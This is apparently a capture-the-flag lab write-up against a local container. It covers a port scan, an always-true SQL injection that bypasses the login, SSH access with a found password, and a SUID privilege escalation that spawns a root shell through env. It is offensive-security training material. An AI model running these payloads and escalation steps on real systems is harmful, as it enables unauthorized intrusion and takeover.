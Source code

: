 ## Port Analysis
``` bash
nmap 172.17.0.2
```

``` bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 17:31 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

Opened:
- Port 22 (ssh): Connect to the system
- Port 80 (HTTP): Web page

## SQL Injection on Login
![[Pasted image 20250328223842.png]]

SQL injection always true:
``` SQL
' or 1=1 -- -
```

![[Pasted image 20250328224034.png]]

## SSH Intrusion

``` bash
ssh dylan@172.17.0.2
```
**Password**: KJSDFG789FGSDF78

## Find SUID files

``` bash
find / -perm -4000 2>/dev/null
```
- **`find /`** → Starts searching from the root (`/`) directory.
- **`-perm -4000`** → Looks for files with the **SUID (Set User ID) permission** set (`4000` in octal).
- **`2>/dev/null`** → Redirects **error messages** (typically "Permission denied" errors) to `/dev/null` to avoid clutter in the output.

![[Pasted image 20250328225102.png]]

Search **`env`** on GTFOBins with SUID permission: https://gtfobins.github.io/gtfobins/env/#suid

``` bash
/usr/bin/env /bin/sh -p
```
- **`/usr/bin/env`** → Runs a command in a modified environment (typically used to locate and execute binaries in the correct environment).
- **`/bin/sh`** → Starts a new shell session using `/bin/sh`.
- **`-p`** → Instructs the shell to **not drop privileges** when executing.